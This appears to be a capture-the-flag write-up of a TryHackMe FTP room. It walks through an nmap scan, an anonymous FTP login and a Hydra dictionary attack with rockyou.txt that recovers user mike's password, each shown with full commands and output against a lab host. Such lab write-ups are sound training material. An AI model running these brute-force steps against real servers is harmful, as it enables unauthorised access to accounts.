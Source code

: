 # Network Services FTP

---
Date: 2021-12-17  
Author: Michael Baumberger  
[TryHackMe link](https://tryhackme.com/room/networkservices)
---

## Enumerating FTP

Always start with a nmap scan:

````
nmap -sV -A 10.10.189.117
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-18 23:55 CET
Nmap scan report for 10.10.189.117
Host is up (0.047s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.0.8 or later
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.9.205.135
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             353 Apr 24  2020 PUBLIC_NOTICE.txt
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: Host: Welcome


Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.35 seconds
````

You can see that **2 ports** are open. The **ftp port is 21**. You also can see that the **ftp variant vsFTPd** is used.

The nmap says that ftp anonymous login is allowed so we try it:

````
ftp 10.10.189.117
Connected to 10.10.189.117.
220 Welcome to the administrator FTP service.
Name (10.10.189.117:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
````

Now we can list the FTP directory and we see the **file PUBLIC_NOTICE.txt**.
Let us get the file via *'get PUBLIC_NOTICE.txt -'*.
The content of the file contains the probably **username mike**.

## Exploiting FTP

Lets dictionary attack the password of mice with hydra:

````
hydra -t 8 -l mike -P /usr/share/wordlists/rockyou.txt 10.10.189.117 ftp
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-12-19 00:12:11
[DATA] max 8 tasks per 1 server, overall 8 tasks, 14344399 login tries (l:1/p:14344399), ~1793050 tries per task
[DATA] attacking ftp://10.10.189.117:21/
[21][ftp] host: 10.10.189.117   login: mike   password: password
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-12-19 00:12:27
````

Hydra got the **password 'password'** for the user mike.

Lets connect and get the ftp.txt with the flag:

````
ftp 10.10.189.117
Connected to 10.10.189.117.
220 Welcome to the administrator FTP service.
Name (10.10.189.117:root): mike
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> get ftp.txt -
````